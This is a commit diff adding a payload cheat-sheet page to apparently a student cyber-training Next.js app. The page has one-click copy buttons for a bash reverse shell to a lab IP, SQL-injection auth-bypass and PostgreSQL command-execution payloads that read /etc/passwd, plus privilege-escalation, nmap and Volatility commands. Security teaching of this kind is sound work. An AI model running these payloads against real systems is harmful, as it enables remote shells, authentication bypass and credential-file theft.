

Before and after one commit to ninadcyber88-max/cybermatrix-academy, a Next.js app: page /cheatsheet in a window 1280 px wide. Before the commit this address had no page. Shown: the top 851 px of the page. Before the commit the page ends 800 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
feat: add interactive payload and cheat sheet arsenal with one-click copy

```diff
--- /dev/null
+++ b/app/cheatsheet/page.tsx
@@ -0,0 +1,206 @@
+'use client';
+
+import { useState } from 'react';
+import Link from 'next/link';
+import { CyberSmokeHeader } from "@/components/CyberSmokeHeader";
+import { StudentAIAssistant } from "@/components/StudentAIAssistant";
+import {
+  ArrowLeft,
+  Copy,
+  Check,
+  Terminal,
+  ShieldAlert,
+  Cpu,
+  Search,
+  Code2,
+  Database,
+  Lock,
+  Layers
+} from "lucide-react";
+
+interface PayloadItem {
+  id: string;
+  category: 'Reverse Shell' | 'SQLi' | 'PrivEsc' | 'Recon' | 'Forensics';
+  title: string;
+  description: string;
+  code: string;
+}
+
+const CHEATSHEET_DATA: PayloadItem[] = [
+  {
+    id: 'p1',
+    category: 'Reverse Shell',
+    title: 'Bash TCP One-Liner',
+    description: 'Standard Linux interactive reverse TCP payload for Netcat listener.',
+    code: 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1',
+  },
+  {
+    id: 'p2',
+    category: 'Reverse Shell',
+    title: 'Python 3 Interactive PTY',
+    description: 'Spawns a clean pseudoterminal shell for stabilization.',
+    code: 'python3 -c \'import pty; pty.spawn("/bin/bash")\'',
+  },
+  {
+    id: 'p3',
+    category: 'SQLi',
+    title: 'Universal Auth Bypass Payload',
+    description: 'Bypasses standard single-quote SQL login authentication checks.',
+    code: "' OR 1=1 -- -",
+  },
+  {
+    id: 'p4',
+    category: 'SQLi',
+    title: 'PostgreSQL Command Execution',
+    description: 'Stacked query RCE payload using COPY PROGRAM command.',
+    code: "'; COPY users FROM PROGRAM 'cat /etc/passwd'; --",
+  },
+  {
+    id: 'p5',
+    category: 'PrivEsc',
+    title: 'SUID Binaries Enumeration',
+    description: 'Lists all system files with SUID bit set without stderr clutter.',
+    code: 'find / -perm -u=s -type f 2>/dev/null',
+  },
+  {
+    id: 'p6',
+    category: 'PrivEsc',
+    title: 'Sudo Privileges Inspection',
+    description: 'Checks what commands the current operative user can run as root.',
+    code: 'sudo -l',
+  },
+  {
+    id: 'p7',
+    category: 'Recon',
+    title: 'Nmap Full TCP Port Sweep with Scripts',
+    description: 'Scans all 65535 ports with service version detection and default NSE scripts.',
+    code: 'nmap -p- -sV -sC -T4 -oN nmap_full.txt 10.10.14.88',
+  },
+  {
+    id: 'p8',
+    category: 'Forensics',
+    title: 'Volatility 3 Process Tree Dump',
+    description: 'Extracts memory image parent-child process relationship hierarchy.',
+    code: 'vol -f memory.raw windows.pstree',
+  },
+  {
+    id: 'p9',
+    category: 'Forensics',
+    title: 'Volatility 3 Injected Code Hunter',
+    description: 'Scans memory pages for unmapped executable code and injected DLLs.',
+    code: 'vol -f memory.raw windows.malfind',
+  },
+];
+
+export default function CheatSheetPage() {
+  const [selectedCat, setSelectedCat] = useState<string>('All');
+  const [search, setSearch] = useState('');
+  const [copiedId, setCopiedId] = useState<string | null>(null);
+
+  const handleCopy = (id: string, text: string) => {
+    navigator.clipboard.writeText(text);
+    setCopiedId(id);
+    setTimeout(() => setCopiedId(null), 2000);
+  };
+
+  const filteredPayloads = CHEATSHEET_DATA.filter((item) => {
+    const matchesCat = selectedCat === 'All' || item.category === selectedCat;
+    const matchesSearch = item.title.toLowerCase().includes(search.toLowerCase()) ||
+                          item.description.toLowerCase().includes(search.toLowerCase()) ||
+                          item.code.toLowerCase().includes(search.toLowerCase());
+    return matchesCat && matchesSearch;
+  });
+
+  return (
+    <main className="min-h-screen bg-zinc-950 text-zinc-100 font-mono pb-16">
+      <CyberSmokeHeader />
+
+      <div className="max-w-6xl mx-auto p-4 md:p-8 space-y-8">
+
+        {/* Navigation */}
+        <div className="flex flex-wrap items-center justify-between gap-4 border-b border-zinc-800/80 pb-4">
+          <Link
+            href="/"
+            className="flex items-center space-x-2 text-xs text-cyan-400 hover:text-cyan-300 transition group"
+          >
+            <ArrowLeft className="w-4 h-4 transform group-hover:-translate-x-1 transition" />
+            <span>← RETURN TO DASHBOARD</span>
+          </Link>
+          <div className="text-xs text-zinc-500 font-bold">
+            TACTICAL PAYLOAD ARSENAL // QUICK INJECTION MATRIX
+          </div>
+        </div>
+
+        {/* Filters & Search */}
+        <div className="flex flex-col md:flex-row items-center justify-between gap-4">
+          <div className="flex items-center gap-2 overflow-x-auto w-full md:w-auto pb-2 md:pb-0 no-scrollbar">
+            {['All', 'Reverse Shell', 'SQLi', 'PrivEsc', 'Recon', 'Forensics'].map((cat) => (
+              <button
+                key={cat}
+                onClick={() => setSelectedCat(cat)}
+                className={`px-3 py-1.5 rounded-xl text-xs font-bold transition whitespace-nowrap cursor-pointer ${
+                  selectedCat === cat
+                    ? 'bg-cyan-500 text-zinc-950 shadow-[0_0_15px_rgba(6,182,212,0.4)]'
+                    : 'bg-zinc-900/80 border border-zinc-800 text-zinc-400 hover:text-zinc-200'
+                }`}
+              >
+                {cat.toUpperCase()}
+              </button>
+            ))}
+          </div>
+
+          <div className="relative w-full md:w-72">
+            <Search className="w-4 h-4 text-zinc-500 absolute left-3 top-1/2 -translate-y-1/2" />
+            <input
+              type="text"
+              value={search}
+              onChange={(e) => setSearch(e.target.value)}
+              placeholder="Search payloads & exploits..."
+              className="w-full pl-9 pr-4 py-2 rounded-xl bg-zinc-900/80 border border-zinc-800 text-xs text-zinc-100 placeholder-zinc-500 focus:outline-none focus:border-cyan-500 transition"
+            />
+          </div>
+        </div>
+
+        {/* Payloads Grid */}
+        <div className="grid grid-cols-1 md:grid-cols-2 gap-5">
+          {filteredPayloads.map((payload) => (
+            <div
+              key={payload.id}
+              className="p-5 rounded-2xl bg-zinc-900/70 border border-cyan-500/20 hover:border-cyan-500/40 backdrop-blur-md transition flex flex-col justify-between space-y-4 shadow-[0_0_20px_rgba(0,0,0,0.3)]"
+            >
+              <div className="space-y-2">
+                <div className="flex items-center justify-between">
+                  <span className="text-[9px] px-2 py-0.5 rounded bg-cyan-500/10 border border-cyan-500/30 text-cyan-400 font-bold uppercase">
+                    {payload.category}
+                  </span>
+                </div>
+                <h3 className="text-sm font-bold text-zinc-100">{payload.title}</h3>
+                <p className="text-xs text-zinc-400 leading-relaxed">{payload.description}</p>
+              </div>
+
+              {/* Code Box */}
+              <div className="relative group">
+                <pre className="p-3 rounded-xl bg-zinc-950 border border-zinc-800 text-xs text-cyan-300 overflow-x-auto whitespace-pre-wrap font-mono select-all">
+                  {payload.code}
+                </pre>
+                <button
+                  onClick={() => handleCopy(payload.id, payload.code)}
+                  className="absolute right-2 top-2 p-1.5 rounded-lg bg-zinc-800/90 border border-zinc-700 text-zinc-300 hover:text-cyan-400 transition cursor-pointer"
+                  title="Copy payload"
+                >
+                  {copiedId === payload.id ? (
+                    <Check className="w-3.5 h-3.5 text-green-400" />
+                  ) : (
+                    <Copy className="w-3.5 h-3.5" />
+                  )}
+                </button>
+              </div>
+            </div>
+          ))}
+        </div>
+      </div>
+
+      <StudentAIAssistant />
+    </main>
+  );
+}
--- a/app/page.tsx
+++ b/app/page.tsx
@@ -3,7 +3,7 @@ import { StudentAIAssistant } from "@/components/StudentAIAssistant";
 import { CTFTerminal } from "@/components/CTFTerminal";
 import { CTFFlagSubmit } from "@/components/CTFFlagSubmit";
 import { Leaderboard } from "@/components/Leaderboard";
-import { BookOpen, Terminal, User, Swords } from "lucide-react";
+import { BookOpen, Terminal, User, Swords, Code2 } from "lucide-react";
 import Link from "next/link";
 
 export default function Home() {
@@ -12,13 +12,20 @@ export default function Home() {
       <CyberSmokeHeader />
 
       <div className="max-w-6xl mx-auto p-4 md:p-8 space-y-6">
-        {/* Status & Navigation Bar */}
+        {/* Navigation Bar */}
         <div className="flex flex-wrap items-center justify-between gap-3 border-b border-zinc-800/80 pb-3">
           <div className="flex items-center space-x-2 text-xs text-zinc-400">
             <span className="h-2 w-2 rounded-full bg-cyan-400 animate-pulse"></span>
             <span>CYBER LAB STATUS: OPERATIONAL</span>
           </div>
           <div className="flex items-center space-x-2.5">
+            <Link
+              href="/cheatsheet"
+              className="text-xs px-3 py-1.5 rounded-lg bg-zinc-900 border border-zinc-800 text-zinc-300 hover:text-cyan-400 hover:border-cyan-500/30 transition flex items-center space-x-1.5"
+            >
+              <Code2 className="w-3.5 h-3.5" />
+              <span>CHEATSHEET</span>
+            </Link>
             <Link
               href="/arena"
               className="text-xs px-3 py-1.5 rounded-lg bg-red-500/10 border border-red-500/30 text-red-400 hover:bg-red-500/20 transition flex items-center space-x-1.5 font-bold shadow-[0_0_12px_rgba(239,68,68,0.2)]"
@@ -42,7 +49,7 @@ export default function Home() {
           </div>
         </div>
 
-        {/* Top Aligned Grid */}
+        {/* 2-Column Grid */}
         <div className="grid grid-cols-1 lg:grid-cols-12 gap-6 items-stretch">
 
           {/* Left Column (5 Cols) */}
```
